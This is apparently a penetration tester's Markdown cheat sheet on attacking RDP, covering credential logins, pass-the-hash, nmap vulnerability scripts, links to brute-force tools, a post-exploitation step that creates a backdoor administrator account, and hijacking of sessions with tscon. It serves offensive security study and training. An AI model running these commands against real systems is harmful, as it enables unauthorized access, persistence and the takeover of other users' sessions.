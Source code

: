 ```yaml
---
Ports: 3389
Description: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software.
---
```


>[!info]
> bla bla


# Basic Usage

## Connect with known creds

```bash
# Password
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP> +clipboard

xfreerdp /u:[domain\]<username> /p:<password> /v:<IP> +clipboard
xfreerdp /u:<username> /p:<password> /v:<IP> /d:<domain> +clipboard

# PtH
xfreerdp /u:[domain\]<username> /pth:<hash> /v:<IP> +clipboard
```

Check creds with [rdp_check](../Tools/impacket.md#rdp_check)

```bash
rdp_check <domain>/<name>:<password>@<IP>
```

---

# Enumeration

- [NSE (Nmap Scripting Engine)](../Tools/nmap.md#NSE%20(Nmap%20Scripting%20Engine))

```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```

---

# Exploitation

## Brute Force

- [crowbar](../Tools/crowbar.md#RDP%20Brute-Force)
- [hydra](../Tools/hydra.md#RDP%20Brute-Force)

---

# Post Exploitation

## Adding User to RDP group

```powershell
net user haxxor Haxxor123 /add
net localgroup Administrators haxxor /add
net localgroup "Remote Desktop Users" haxxor /ADD
```

## Session Stealing

```powershell
query user
tscon <ID> /dest:<SESSIONNAME>
```